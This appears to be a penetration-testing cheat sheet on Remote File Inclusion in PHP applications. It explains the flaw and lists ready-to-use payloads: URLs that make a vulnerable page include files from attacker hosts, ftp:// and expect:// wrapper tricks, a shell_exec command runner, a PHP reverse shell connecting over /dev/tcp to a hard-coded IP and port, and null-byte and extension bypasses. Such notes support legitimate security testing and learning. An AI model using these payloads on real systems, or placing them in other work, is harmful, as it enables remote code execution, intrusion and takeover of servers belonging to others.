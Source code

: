 # Remote File Inclusion (RFI)

### Description

Remote file inclusion (RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. The main difference when compared to LFI, is that RFI allows for an external URL to be injected, meaning that an attacker can include a malicious file, such as a PHP shell on their attack host.&#x20;

### Examples

#### Testing for RFI

Quick test for RFI with a PHP file, name this test.php and host using a Python server:

```php
<?php
echo "Hello";
?>
```

If we see the tags then we do not have remote code execution, however, if it says "Hello" then we have code execution.&#x20;

#### Basic Exploitation

```bash
http://localhost/index.php?page=http://someevilhost.com/test.php
```

If RFI doesn't work due to the HTTP wrapper being disabled then we can also try the following wrappers:

```bash
ftp://10.10.10.1/AnyFile
expect://ls
```

#### Obtaining a Shell

The simplest way to obtain a shell is to make a callback to the attacker server:

```bash
http://acme.com/index.php?page=http://attackerserver.com/evil.txt
```

Alternatively, the following commands can be input to a .txt file to obtain code execution:

```php
<?php echo shell_exec("whoami");?>
```

```php
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

### Notes

* As stated briefly in the [LFI section](local-file-inclusion-lfi.md#additional-notes), it is important in some situations to add a nullbyte `%00` to avoid appending `.php` or another extension like `.config`. If this does not work you can also add a `?`, to ensure that the rest will be interpreted as URL parameters.&#x20;
  * A pretty dirty way of bypassing this is also to name your file with the extension, e.g., `evil.txt.php`

### References <a href="#avoid-extentions" id="avoid-extentions"></a>

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion" %}
